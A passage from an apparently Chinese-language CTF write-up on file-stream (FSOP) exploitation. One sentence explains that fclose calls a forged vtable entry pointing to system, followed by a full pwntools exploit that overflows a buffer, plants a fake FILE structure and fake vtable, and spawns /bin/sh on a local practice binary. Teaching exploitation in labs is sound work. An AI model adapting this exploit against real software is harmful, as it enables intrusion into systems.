 ![3](3.png)


漏洞触发方式：执行fclose时，调用了vtable上的\_\_close（被伪造位system_plt的地址）



最终exp

```python
from pwn import*
context.log_level = 'debug'
p = process('./example')
elf = ELF('./example')
system = elf.plt['system']

buf2 = 0x6010c0 
fake_vtable_ptr = buf2+0x200

fake_file = '/bin/sh\x00'.ljust(0x88,'\x00')+p64(buf2+0x400)
fake_file = fake_file.ljust(0xd8,'\x00')+p64(fake_vtable_ptr)

fake_vtable = '\x00'*0x88+p64(system)

payload = 'a'*0x20+p64(buf2)+p64(0)*3
payload += fake_file.ljust(0x200,'\x00')
payload += fake_vtable
#gdb.attach(p,'b *0x40063a')
p.sendline(payload)

p.interactive()
```

